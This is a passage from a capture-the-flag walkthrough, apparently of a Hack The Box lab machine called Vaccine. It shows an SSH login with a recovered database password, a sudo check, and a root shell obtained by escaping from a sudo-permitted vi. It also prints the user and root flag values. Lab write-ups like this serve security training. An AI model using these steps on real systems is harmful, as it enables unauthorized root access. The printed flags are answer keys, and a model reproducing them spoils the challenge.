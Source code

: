 ```PHP
</body>
</html>

```

## 6. Command and Control

We can see that the variable `$conn` contains the password of `postgres` and is `P@s5w0rd!`.
So let's go connect to ssh :

```SHELL
┌─[eu-starting-point-2-dhcp]─[10.10.15.56]─[bobinette@htb-ktojmy4srl]─[~]
└──╼ [★]$ ssh postgres@10.129.11.179
postgres@10.129.11.179's password: P@s5w0rd!
```

It's working

```SHELL
postgres@vaccine:~$ ls
11  user.txt
```

hehe boyyyy

```SHELL
postgres@vaccine:~$ cat user.txt 
ec9b13ca4d6229cd5cc1e09980965bf7
```

user flag is : `ec9b13ca4d6229cd5cc1e09980965bf7`

Now we want root privilege so let's go make an `sudo -l` for see if we can do something

```SHELL
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We need to edit the config file using vi.

```SHELL
postgres@vaccine:~$ /bin/vi /etc/postgresql/11/main//pg_hba.conf
```

Now press `esc` we write `:!/bin/bash` in the file

```SHELL
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main//pg_hba.conf
```

And we are root :

![[Pasted image 20250115224619.png]]

Go to `/root` and read the `root.txt` file.

`dd6e058e814260bc70e9bbdef2715849`